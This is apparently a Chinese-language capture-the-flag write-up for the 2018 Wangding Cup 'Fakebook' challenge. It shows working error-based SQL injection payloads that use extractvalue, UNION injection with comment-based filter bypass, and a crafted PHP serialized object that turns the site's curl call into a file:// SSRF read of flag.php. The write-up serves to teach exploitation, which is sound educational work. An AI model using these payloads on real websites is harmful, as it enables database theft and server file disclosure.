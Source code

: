 # \[网鼎杯 2018]Fakebook

## 考点

* 报错注入
* PHP反序列化
* SSRF

## wp

在join.php输入内容，然后访问，发现URL为 `http://c8792f56-7863-4f64-918a-e39388492049.node3.buuoj.cn/view.php?no=1`

加个单引号就会报错&#x20;

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

这里只有一个单引号，说明很大概率是数字型注入，输入`?no=1 and 1`返回正常页面，说明是数字型注入

这里就可以考虑报错注入，发现它过滤了0x，报错注入语句如下\
`?no=1 and extractvalue(1,concat('~',(select @@version),'~'))`

返回\
`XPATH syntax error: '~10.2.26-MariaDB-log~'`

`extractvalue(1,concat('~',(select schema_name from information_schema.schemata limit 0,1),'~'))`可以获取当前数据库，为fakebook

`extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='fakebook' limit 0,1),'~'))`获取表，为 users

`extractvalue(1,concat('~',(select column_name from information_schema.columns where table_name='users' limit 0,1),'~'))`获取字段，为 no,username,passwd,data

`extractvalue(1,concat('~',(select group_concat(data) from users where no='1'),'~'))` 获取no为1中的data数据

`extractvalue(1,concat('~',(substr((select passwd from users where no='1'),0,32)),'~'))` 截取数据，最后再进行拼接即可

```
username : \11111111
passwd : 长度为128的加密字符串
data : 
O:8:"UserInfo":3:{s:4:"name";s:9:"\11111111";s:3:"age";i:1;s:4:"blog";s:13:"www.baidu.com";}
```

发现是序列化后的结果，进行联合注入，发现报错内容为不能进行反序列化，并且给了绝对路径/var/www/html/view.php，页面在username处显示2，根据上面的报错注入，可以发现其查询顺序是 select no,username,passwd,data 也就是会对data进行反序列化

```
?no=0/**/union/**/select/**/1,2,3,4
```



经过扫描，存在flag.php和robots.txt，在robots.txt文件中发现备份文件，user.php.bak，下载然后审计

发现如下代码，而php的curl存在ssrf，可以利用file协议读取文件

```
    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
```

构造的序列化代码如下

```
class UserInfo
{
    public $name = "test";
    public $age = 12;
    public $blog = "file:///var/www/html/flag.php";

}
$x = new UserInfo();
echo serialize($x);
```

结果为\
`O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

接下来是将数据进行注入，回到刚刚的注入语句，不难想到，其查询顺序是 select no,username,passwd,data 而blog的序列化就是存入的data

然后构造联合查询，

```
no=0/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
